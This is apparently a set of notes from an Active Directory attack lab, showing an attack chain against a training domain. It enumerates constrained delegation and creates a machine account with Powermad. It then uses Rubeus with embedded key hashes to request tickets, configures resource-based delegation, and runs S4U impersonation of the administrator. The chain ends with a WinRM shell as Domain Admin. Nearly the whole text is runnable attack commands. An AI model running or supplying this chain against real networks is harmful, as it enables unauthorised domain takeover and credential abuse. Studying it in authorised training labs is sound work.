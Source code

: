 
Enumerate constrained delegation using ADModule

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

Since ms-DS-MachineAccountQuota is set to 10 for all domain users,
any domain user can create a new Machine Account and join the same
in the current domain.

Create a new Machine Account using Powermad.ps1 script

```
. C:\AD\Tools\Powermad\Powermad.ps1
New-MachineAccount -MachineAccount studentcompX
```

We already compromised us-mgmt.

Configure RBCD on us-mgmt using us-mgmt$ computer account.

```
C:\AD\Tools\Rubeus.exe asktgt /user:us-mgmt$
/aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d7
4016ed51b2 /impersonateuser:administrator
/domain:us.techcorp.local /ptt /nowrap
```

Using ADModule:

```
Set-ADComputer -Identity us-mgmt$ -
PrincipalsAllowedToDelegateToAccount studentcompX$ -Verbose
```

Obtain a TGS/Service Ticket for us-mgmt (machine configured with
Constrained Delegation) by leveraging the newly created Machine
Account (studentcompx).

```
C:\AD\Tools\Rubeus.exe hash /password:P@ssword@123
```

```
C:\AD\Tools\Rubeus.exe s4u
/impersonateuser:administrator /user:studentcompX$
/rc4:D3E5739141450E529B07469904FE8BDC /msdsspn:cifs/us-
mgmt.us.techcorp.local /nowrap
```

Request a new forwardable TGS/Service Ticket by leveraging the ticket
created in previous step.

```
C:\AD\Tools\Rubeus.exe s4u
/tgs:doIGxjCCBsKgAwIBBaEDAgEWoo... /user:us-mgmt$
/aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /msdsspn:cifs/us-mssql.us.techcorp.local /altservice:http /nowrap /ptt
```

Access the us-mssql using WinRM as the Domain Admin.

```
winrs -r:us-mssql.us.techcorp.local cmd.exe
```

